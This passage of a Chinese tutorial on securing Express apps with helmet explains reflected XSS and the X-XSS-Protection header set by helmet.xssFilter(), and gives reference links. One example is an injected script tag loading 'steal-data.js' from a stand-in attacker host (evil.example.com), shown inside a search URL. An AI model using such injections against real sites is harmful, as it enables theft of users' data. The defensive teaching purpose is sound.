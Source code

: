 ![xss-filter-ok](https://helmetjs.github.io/docs/xss-filter/xss-filter-ok.png)

当我们搜索 `<script src="http://evil.example.com/steal-data.js"></script>` 的时候，url 可能会变为: `https://goober.example.com/search?query=<script%20src="http://evil.example.com/steal-data.js"></script>`，页面会变成下面这样子，然后一个可能怀有恶意的 JS 文件就被触发了 🙀:

![xss-filter-malicious](https://helmetjs.github.io/docs/xss-filter/xss-filter-malicious.png)

```JS
// Sets "X-XSS-Protection: 1; mode=block".
app.use(helmet.xssFilter())
```

> 这个 header 可以设置三种不同的值: `0`、`1` 和 `1; mode=block`，具体区别[请参考这里](https://blog.innerht.ml/the-misunderstood-x-xss-protection/) 👈

## 参考链接

1. [Content Security Policy 入门教程](http://www.ruanyifeng.com/blog/2016/09/csp.html) By 阮一峰
2. [为你的网站带上帽子 — 使用 helmet 保护 Express 应用](https://juejin.im/post/5a24fd8f51882509e5438247) By Isvih
